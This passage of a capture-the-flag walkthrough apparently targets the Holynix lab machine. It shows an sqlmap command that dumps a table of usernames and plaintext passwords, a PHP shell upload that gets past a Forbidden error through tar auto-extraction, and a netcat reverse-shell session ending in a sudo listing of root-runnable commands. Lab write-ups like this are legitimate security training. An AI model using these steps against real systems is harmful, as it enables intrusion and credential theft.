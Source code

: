 ```
gmckinnon:x:1002:100::/home/gmckinnon:/bin/bash
hreiser:x:1003:50::/home/hreiser:/bin/bash
jdraper:x:1004:100::/home/jdraper:/bin/bash
jjames:x:1005:50::/home/jjames:/bin/bash
jljohansen:x:1006:115::/home/jljohansen:/bin/bash
ltorvalds:x:1007:113::/home/ltorvalds:/bin/bash
kpoulsen:x:1008:100::/home/kpoulsen:/bin/bash
mrbutler:x:1009:50::/home/mrbutler:/bin/bash
rtmorris:x:1010:100::/home/rtmorris:/bin/bash
```
Using this information, we can use `SQLmap` to find vulnerabilites and/or gain access to credentials in the SQL database. We can use the command `sqlmap -u "http://___.___._.___/index.php?page=login.php" --data="username-etenenbaum" --dbs --forms --batch --dump` which will give us the output of:

```
+-----+--------+------------+--------------------+
| cid | upload | username   | password           |
+-----+--------+------------+--------------------+
| 1   | 0      | alamo      | Ih@cK3dM1cR05oF7   |
| 2   | 1      | etenenbaum | P3n7@g0n0wN3d      |
| 3   | 1      | gmckinnon  | d15cL0suR3Pr0J3c7  |
| 4   | 1      | hreiser    | Ik1Ll3dNiN@r315er  |
| 5   | 1      | jdraper    | p1@yIngW17hPh0n35  |
| 6   | 1      | jjames     | @rR35t3D@716       |
| 7   | 1      | jljohansen | m@k1nGb0o7L3g5     |
| 8   | 1      | kpoulsen   | wH@7ar37H3Fed5D01n |
| 9   | 0      | ltorvalds  | f@7H3r0FL1nUX      |
| 10  | 1      | mrbutler   | n@5aHaSw0rM5       |
| 11  | 1      | rtmorris   | Myd@d51N7h3NSA     |
+-----+--------+------------+--------------------+
```
We can head back to the website, and login with a user that has the priviliges to upload files. These are the followwing users: `etenenbaum, gmckinnon, hreiser, jdraper, jjames, jljohansen, kpoulsen, mrbutler, rtmorris`. I will user `etenenbaum`. After logging in, we can upload our shell. To execute the php shell on the server, head to `http://___.___._.___/~_____/` and try clicking on your uploaded shell. It gives a `Forbidden` error. To bypass this, compress your shell and use the `autoextract` feature on the website. We have to use `tar` to compress because if we look at the source code, it uses `tar` to extract it. We use the command `tar czf _____.tar.gz _____.php`. We can then setup our listener, and execute the php shell.

```
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.218.42] from (UNKNOWN) [192.168.218.212] 53284
Linux holynix 2.6.24-26-server #1 SMP Tue Dec 1 19:19:20 UTC 2009 i686 GNU/Linux
 10:07:00 up 16 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ whoami; id   
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ sudo -l
User www-data may run the following commands on this host:
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /bin/chgrp
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /bin/mv
```
